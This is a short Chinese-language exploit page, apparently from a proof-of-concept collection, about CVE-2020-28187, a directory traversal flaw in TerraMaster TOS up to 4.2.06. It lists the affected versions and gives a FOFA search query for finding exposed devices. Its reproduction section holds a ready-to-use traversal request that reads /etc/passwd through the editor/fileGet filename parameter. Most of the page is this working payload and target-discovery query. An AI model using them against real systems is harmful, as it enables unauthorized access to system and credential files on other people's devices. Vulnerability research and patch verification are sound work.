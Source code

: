 # TerraMaster TOS 后台任意文件读取漏洞 CVE-2020-28187

## 漏洞描述

TerraMaster TOS <= 4.2.06中的多个目录遍历漏洞允许远程身份验证的攻击者通过/tos/index.php?editor/fileGet路径下的filename参数、 /include/ajax/logtable.php路径下的Event参数和/include/core/index.php路径下的opt参数，读取文件系统中的任何文件。

## 漏洞影响

```
TerraMaster TOS < 4.2.06
```

## FOFA

```
"TerraMaster" && header="TOS"
```

## 漏洞复现

登陆后访问，验证漏洞的POC为



```plain
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```



![](./images/202202101948100.png)